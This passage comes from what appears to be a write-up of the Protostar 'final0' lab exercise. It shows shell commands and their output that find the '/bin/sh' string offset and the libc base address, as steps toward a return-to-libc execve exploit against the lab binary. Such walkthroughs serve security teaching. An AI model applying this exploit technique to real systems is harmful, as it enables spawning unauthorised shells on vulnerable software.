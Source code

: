 Here's what the **stack layout** would look like:

![execve-stack](/public/image/protostar-final/execve-stack.png)

Now that we understand the stack layout, let's find the address of **"/bin/sh"** in **libc**.

To do this, we need to calculate its address using:
$$
libc base address + offset of /bin/sh
$$

Find the offset of **"bin/sh"**:

```shell
root@protostar:/home/user# ldd /opt/protostar/bin/final0
        linux-gate.so.1 =>  (0xb7fe4000)
        libc.so.6 => /lib/libc.so.6 (0xb7e99000)
        /lib/ld-linux.so.2 (0xb7fe5000)
root@protostar:/home/user# strings -a -t x /lib/libc.so.6 | grep "/bin/sh"
 11f3bf /bin/sh
```

Find the base address of **libc**:

```shell
root@protostar:/home/user# pidof final0
1403
root@protostar:/home/user# cat /proc/1403/maps
08048000-0804a000 r-xp 00000000 00:10 2214       /opt/protostar/bin/final0
0804a000-0804b000 rwxp 00001000 00:10 2214       /opt/protostar/bin/final0
b7e96000-b7e97000 rwxp 00000000 00:00 0
b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd6000-b7fd8000 r-xp 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd8000-b7fd9000 rwxp 00140000 00:10 759        /lib/libc-2.11.2.so
b7fd9000-b7fdc000 rwxp 00000000 00:00 0
b7fe0000-b7fe2000 rwxp 00000000 00:00 0
b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
```